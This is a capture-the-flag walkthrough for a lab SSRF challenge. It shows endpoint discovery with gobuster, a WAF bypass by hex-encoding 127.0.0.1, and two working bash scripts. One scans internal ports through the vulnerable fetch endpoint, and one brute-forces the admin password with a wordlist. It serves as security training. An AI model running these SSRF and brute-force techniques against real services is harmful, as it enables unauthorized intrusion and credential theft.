 # SSRF CTF Walkthrough

## Challenge Description
**This website is currently under construction but can reach other internal webservices on the same host, are you able to find the flag?**  


## Walkthrough  


Reach the website landing page:  
![landing-page](./images/landing_page.png)  

Launch a fuzzer/bruteforcer tool like [*gobuster*](https://github.com/OJ/gobuster) to identify website's endpoints:  
```sh
gobuster dir -k -t 2 -u http://localhost:1042/  -w /usr/share/wordlists/dirb/big.txt -b 404,401
```  

Gobuster identifies the "fetch" endpoint:  

![fetch](./images/fetch.png)  

Go to that url and inspect the error message:  
![no_url_error](./images/no_url_error.png)  

Try to submit the url parameter:  
![invalid_url_error](./images/invalid_url_error.png)  


Submit an url with the correct schema:  
![correct_url](./images/correct_url.png)  

You know from the challenge description that the website can reach other webservices on the same host, try a random port:  


![waf](./images/waf.png)  

It seems that there is some sort of Web Application Firewall...  
You need to find a way to bypass it, try this by yourself!  


After a while you find out that you can use some basic encoding in order to bypass the WAF,  
for example you can encode `127.0.0.1` into hex:  


![waf_bypass](./images/waf_bypass.png)    

You were able to bypass the WAF but, unfortunately, no service is exposed on that port... you need to create an automation to scan all the ports, for example the following script:  
```sh
#!/bin/bash

# Base URL for the public-facing service
base_url="http://localhost:1042/fetch?url="

# Targeting services within the same host
internal_host="http://0x7f000001"

# Range of ports to brute force (you can adjust this range)
start_port=1000
end_port=30000

# Loop through the port range and make a request to each one
for port in $(seq $start_port $end_port); do
    target_url="${internal_host}:${port}"
    full_url="${base_url}${target_url}"
    
    # Make a request to the /fetch endpoint and store the result
    response=$(curl -s "$full_url")

    # Check if the response contains content and does not have error messages
    if [ -n "$response" ] && [ "$(echo "$response" | grep -c '"status":"success"')" -eq 1 ]; then
        echo "Port $port responded: $response"
    fi
done
```  

With the previous script you get 2/3 of the flag!  
![partial-flag](./images/partial_flag.png)  

Unfortunately, the last service required authentication.  
The message you received from the service tells you that you need to authenticate as admin.  

At this point you can try bruteforcing the admin credentials for the last service.  
You can use your favourite brute-force tool or implement a custom script like the following:  
```sh
#!/bin/sh

# Path to the wordlist
WORDLIST="/usr/share/wordlists/rockyou.txt"
# URL for the fetch endpoint
BASE_URL="http://localhost:1042/fetch?url=http://admin:"

# Loop through each password in the wordlist
while IFS= read -r password; do
    # Check if the password contains spaces (ignore it)
    if echo "$password" | grep -q ' '; then
        continue
    fi

    # Construct the full URL
    FULL_URL="${BASE_URL}${password}@0x7f000001:21074/"

    # Make the curl request and capture the response
    response=$(curl -s "$FULL_URL")

    # Check if the response is not the unauthorized message
    if [ "$response" != '{"content":"Unauthorized, you need to authenticate as admin","status":"success"}' ]; then
        echo "Success with password: $password"
        echo "Response: $response"
        exit 0  # Exit the script if a valid password is found
    fi
done < "$WORDLIST"

echo "No valid passwords found in $WORDLIST."

```  


And with this you find the last part of the flag!  
![final-flag-part](./images/final_flag_part.png)  










